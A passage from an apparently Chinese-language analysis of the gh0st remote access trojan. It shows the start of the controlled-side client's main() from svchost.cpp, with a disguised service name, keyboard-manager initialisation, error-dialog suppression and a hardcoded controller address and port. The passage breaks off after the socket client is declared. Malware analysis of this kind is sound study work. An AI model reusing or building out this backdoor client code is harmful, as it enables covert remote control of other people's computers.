 ![](./20181228133523.png)



为了节省篇幅，其他功能就不一一截图了，有兴趣的读者可以自行探索。



### gh0st_client 源码分析

#### 程序主脉络

我们先来看下被控制端的代码基本逻辑（原始代码位于 **svchost.cpp** 中），简化后的脉络代码如下：

```
int main(int argc, char **argv)
{  
    // lpServiceName,在ServiceMain返回后就没有了
    TCHAR	strServiceName[200];
    lstrcpy(strServiceName, TEXT("clientService"));
    //一个随机的名字
    TCHAR	strKillEvent[60];
    HANDLE	hInstallMutex = NULL;
    if (!CKeyboardManager::MyFuncInitialization())
        return -1;

    // 告诉操作系统:如果没有找到CD/floppy disc,不要弹窗口吓人
    SetErrorMode(SEM_FAILCRITICALERRORS);
    //TCHAR	*lpszHost = TEXT("127.0.0.1");
    TCHAR	*lpszHost = TEXT("10.32.26.125");
    DWORD	dwPort = 8080;
    TCHAR	*lpszProxyHost = NULL;//这里就当做是上线密码了

    HANDLE	hEvent = NULL;

    CClientSocket socketClient;
```